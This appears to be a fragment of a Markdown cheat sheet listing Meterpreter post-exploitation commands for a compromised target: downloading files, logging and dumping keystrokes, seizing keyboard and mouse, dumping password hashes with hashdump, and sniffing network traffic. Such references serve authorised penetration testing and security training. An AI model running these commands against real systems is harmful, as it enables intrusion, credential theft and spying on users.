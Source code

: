 - **Download a file from the target:**

```bash
download <file>
```

- **Start keylogging:**

```bash
keyscan_start
```

- **Dump captured keystrokes:**

```bash
keyscan_dump
```

- **Stop keylogging:**

```bash
keyscan_stop
```

- **Get available privileges:**

```bash
getprivs
```

- **Take control of input devices:**

```bash
uictl enable <keyboard/mouse>
```

- **Background the current session:**

```bash
background
```

- **Dump password hashes:**

```bash
hashdump
```

- **Load the sniffer module:**

```bash
use sniffer
```

- **List network interfaces:**

```bash
sniffer_interfaces
```

- **Start sniffing on an interface:**

```bash
sniffer_start <id> <packet-buffer>
```
